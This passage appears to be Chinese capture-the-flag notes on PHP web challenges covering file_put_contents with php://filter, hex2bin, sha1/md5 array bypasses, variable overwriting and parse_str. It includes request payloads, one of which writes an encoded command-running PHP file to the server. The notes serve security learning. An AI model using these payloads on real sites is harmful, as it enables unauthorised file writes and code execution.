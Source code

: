 > file_put_contents(v1, v2)
>
> v1:保存文件的地址，可以用伪协议
>
> v2:保存的内容

> hex2bin — 转换十六进制字符串为二进制字符串

payload

Get:

v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=2.php

Post:

v1=hex2bin

# 104 sha1 mds5

sha1相同

```
    sha1('aaroZmOk')  
    sha1('aaK1STfY')
    sha1('aaO8zKZF')
    sha1('aa3OFF9m')
```

md5不能处理数组

所以：md5(a[]) === md5(b[])

# 105 php变量覆盖

php的变量覆盖 payload： GET: ?suces=flag POST: error=suces

# 106 parse_str()方法

> parse_str() 函数把查询字符串解析到变量中。

```
<?php
parse_str("name=Peter&age=43");
echo $name."<br>";
echo $age;
?>
```

payload

Get:?v3=240610708

POST: v1=flag=0

# 108 erge方法 %00正则截断
